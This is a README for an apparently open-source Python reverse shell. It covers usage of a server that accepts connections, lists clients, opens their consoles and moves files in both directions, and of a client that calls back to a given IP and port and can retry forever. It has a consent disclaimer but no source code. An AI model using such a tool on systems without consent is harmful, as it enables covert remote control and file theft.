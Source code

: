 # Reverse Shell
[This is a reverse shell script written in python.](https://github.com/DBC201/Reverse-Shell)

## DISCLAIMER
**This comes with neither warranty nor working guarantee whatsoever. If you do, use at your own risk.
I do not accept any responsibility of any sorts. Don't use this on systems that you
have no written consent to do so.**

## Server 
```python3 server.py```
### arguments:
- ```-p "port"``` or ```--port "port"```
    - By default the server binds to port 41369.
    - To change to any other number use -p ... or --port ...
    - For example: if you want to run the server at port 22222
    - ```python3 server.py -p 22222``` or ```python3 server.py --port 22222```

### commands:
- To list all current connections type list

- To connect to a machine type their numeric id

- To receive files type ```receive "file"``` while in the client's console to receive a file(must be on the same dir)
    The files will be copied into a folder called received_files at the directory server.py runs at.

- To send files type ```send "file"```. File to be sent must be in a directory called send that's in the same
directory as server.py. It must be run at the client's console and the file will be copied into the directory
the client shell is in.
    
## Client
```python3 client.py "ip" "port"```
### arguments:
- ip: the ip of the server(this is required)
- port: the port the server is bound to (this is also required)
- ```-v```, ```--verbose```: a verbose output of what the server is running in the local shell
- ```-l```, ```--loop```: the client program will never halt unless an outside kill signal is sent.
it will attempt to connect indefinitely
